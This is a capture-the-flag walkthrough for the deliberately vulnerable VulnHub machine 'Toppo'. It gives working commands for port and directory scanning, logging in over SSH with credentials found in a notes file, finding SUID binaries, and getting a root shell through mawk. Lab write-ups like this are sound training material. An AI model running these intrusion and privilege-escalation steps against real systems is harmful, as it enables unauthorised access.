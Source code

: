 # VulnHub Walkthrough: 🔝 Toppo

Running `nmap -p0-65535 <ipaddr>` tells us *ssh & http* are open.

1. Run a *dirb* scan while you're looking through the source code of the website (http://[IP Address]): `dirb http://<ipaddr>`

2. Dirb returns http://[IP Address]/*admin*. Taking a deeper look at the source code of this page, we find *notes.txt* containing:
     * username: ***ted*** &  password: ***12345ted123***

3. From there we can use the secure shell host protocol, 22, to login - `ssh ted@<ipaddr>` , enter "yes" & password.

4. Once you're in, use `pwd` to "**p**rint **w**orking **d**irectory", & `whoami` to output the user you are logged in as.

5. Next find a list of all programs the logged in user has permissions to:
     * `find / -perm -u=s -type f 2>/dev/null`

6. Within the output we see that *mawk* is available, which we will then use to spawn in sh shell:
     * `mawk 'BEGIN {system("/bin/sh")}'`

7. Once it has spawned, find & print the flag:
     * `cd root; cat flag.txt`
